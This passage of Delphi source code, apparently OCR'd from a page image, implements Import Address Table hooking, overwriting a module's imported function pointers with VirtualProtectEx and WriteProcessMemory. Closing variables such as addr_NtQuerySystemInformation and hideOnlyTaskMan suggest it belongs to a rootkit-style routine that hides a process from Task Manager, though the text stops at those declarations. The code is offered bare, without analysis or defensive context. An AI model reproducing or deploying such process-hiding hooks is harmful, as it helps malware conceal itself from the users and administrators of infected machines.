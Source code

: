     function AllocMem(Size: Cardinal): Pointer;
    begin
      GetMem(Result, Size);
      FillChar(Result^, Size, 0);
    end;
     
    procedure ReplaceIATEntryInOneMod(pszCallerModName: Pchar; pfnCurrent: FarProc;
      pfnNew: FARPROC; hmodCaller: hModule);
    var
      ulSize: ULONG;
      pImportDesc: PIMAGE_IMPORT_DESCRIPTOR;
      pszModName: PChar;
      pThunk: PDWORD;
      ppfn: PFARPROC;
      ffound: LongBool;
      written: DWORD;
    begin
      pImportDesc := ImageDirectoryEntryToData(Pointer(hmodCaller), TRUE,
        IMAGE_DIRECTORY_ENTRY_IMPORT, ulSize);
      if pImportDesc = nil then
        exit;
      while pImportDesc.Name <> 0 do
      begin
        pszModName := PChar(hmodCaller + pImportDesc.Name);
        if (lstrcmpiA(pszModName, pszCallerModName) = 0) then
          break;
        Inc(pImportDesc);
      end;
      if (pImportDesc.Name = 0) then
        exit;
      pThunk := PDWORD(hmodCaller + pImportDesc.FirstThunk);
      while pThunk^ <> 0 do
      begin
        ppfn := PFARPROC(pThunk);
        fFound := (ppfn^ = pfnCurrent);
        if (fFound) then
        begin
          VirtualProtectEx(GetCurrentProcess, ppfn, 4, PAGE_EXECUTE_READWRITE,
            written);
          WriteProcessMemory(GetCurrentProcess, ppfn, @pfnNew, sizeof(pfnNew),
            Written);
          exit;
        end;
        Inc(pThunk);
      end;
    end;
     
    var
      addr_NtQuerySystemInformation: Pointer;
      mypid: DWORD;
      fname: PCHAR;
      mapaddr: PDWORD;
      hideOnlyTaskMan: PBOOL;
     